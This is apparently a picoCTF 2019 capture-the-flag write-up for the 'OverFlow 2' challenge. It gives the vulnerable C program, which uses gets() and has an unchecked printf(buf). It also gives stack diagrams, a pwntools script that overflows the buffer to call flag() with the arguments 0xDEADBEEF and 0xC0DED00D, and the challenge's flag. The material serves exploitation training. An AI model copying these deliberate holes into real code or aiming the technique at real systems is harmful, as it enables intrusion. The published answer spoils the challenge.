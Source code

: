 # OverFlow 2

## description

Now try overwriting arguments. Can you get the flag from this [program](./vuln)? You can find it in /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e on the shell server. [Source](./vuln.c).

## solution

Similar to the previous challenge, we have to overwrite the return address to call the ```flag()``` function.
However, this time, we need to pass the correct arguments, 0xDEADBEEF and 0xC0DED00D, in order to have the flag printed.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

As with OverFlow 1, we need to overflow the memory allocated for local variables and overwrite the EBP and return address.
We can use the same technique of filling the char array buffer, then printing a recognisable pattern, such as the alphabet, and checking the value of the EBP register in GDB.

This time, we need to write past the return address to set the arguments for the ```flag()``` function.
For this challenge, it is very useful to know where arguments are on the stack.

```
Local variables
EBP
Return Address
Arguments
```

We want to overwrite the return address of ```vuln()``` with the address of the ```flag()``` function.
When this happens, the current stack will be destroyed and a new stack will be created like so:

During execution of ```vuln()```:

```
vuln - Local variables
vuln - old EBP
vuln - Return Address
previous stack
```

Finished execution of ```vuln()```:

```
vuln - Arguments
previous stack
```

Start execution of ```flag()```:

```
flag - Local variables
flag - old EBP
previous stack
```

However, the flag function expects that the stack is structured as normal:

```
flag - Local variables
flag - old EBP
flag - Return Address
flag - Arguments
previous stack
```

Using a buffer overflow, we can overwrite memory in the previous stack just as we would overwrite the return address.

We can see that the top of the previous stack has to include the following in order:

```
flag - Return Address
flag - Arguments
```

The return address doesn't matter in this case as we are not concerned with where the program attempts to return to once the flag has been printed.
We can overwrite this value with an arbitrary address, such as 0x41414141.

Once we've filled the return address, we overwrite the next 8 bytes with the correct arguments.
When we're finished, stack will looks something like this:

```
flag - Local variables
flag - old EBP
0x41414141
0xDEADBEEF
0xC0DED00D
remaining previous stack
```

## exploit script

This script is pretty much the same as the one used in OverFlow 1.
The difference is that, after printing the buffer and the address of the ```flag()``` function, we add an arbitrary 4 bytes, followed by the two arguments.

```
#!/usr/bin/python
from pwn import *
from getpass import getpass

pico_user = input("Username: ")[:-1]
pico_pass = getpass("Password: ")

conn = ssh(host = '2019shell1.picoctf.com', user = pico_user, password = pico_pass)

location = '/problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e'

print("running vuln")
vuln = conn.process(location + '/vuln', cwd = location)

print("sending payload")
vuln.sendlineafter('\n', ('A' * 188).encode() + p32(0x080485e6) + ('A' * 4).encode() + p32(0xDEADBEEF) + p32(0xC0DED00D))
vuln.recvline()

print("done")
vuln.interactive()
```

Flag: ```picoCTF{arg5_and_r3turn55897b905}```

